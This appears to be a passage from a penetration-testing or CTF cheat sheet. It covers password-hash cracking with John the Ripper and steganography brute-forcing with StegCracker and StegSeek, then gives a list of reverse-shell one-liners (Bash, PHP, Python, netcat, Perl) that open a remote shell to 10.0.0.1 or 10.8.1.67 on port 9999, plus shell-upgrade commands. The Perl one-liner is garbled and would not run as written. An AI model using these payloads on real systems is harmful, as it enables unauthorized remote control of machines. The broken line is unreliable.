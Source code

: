 #### John
```sh
#Automatic cracking
john --wordlist=[path to wordlist] [path to hash_file] 
```


#### Stegcracker

```markdown
#usage: 
stegcracker <file> [<wordlist>]

This is a steganography brute-force utility to uncover hidden data inside files. Accepted file types are: jpg, jpeg, bmp, wav, au

StegCracker has been retired following the release of StegSeek, which will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours. StegSeek can be found at: https://github.com/RickdeJager/stegseek

#usage:
stegseek  <file> [<wordlist>]
```

--------

## Extra

----------

#### Shells

```sh
#Reverse shells
Bash	bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
PHP	php -r '$sock=fsockopen("10.0.0.1",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
Python	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
NC v1	nc -e /bin/sh 10.0.0.1 9999
NC v2	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.67 9999 >/tmp/f
Perl	perl -e 'use Socket;i="10.0.0.1";i="10.0.0.1";p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(p,inet\_aton(p,inet_aton(i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Shell Upgrades
Perl	perl -e 'exec "/bin/bash";'
Bash	echo os.system('/bin/bash')

#Python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116

```
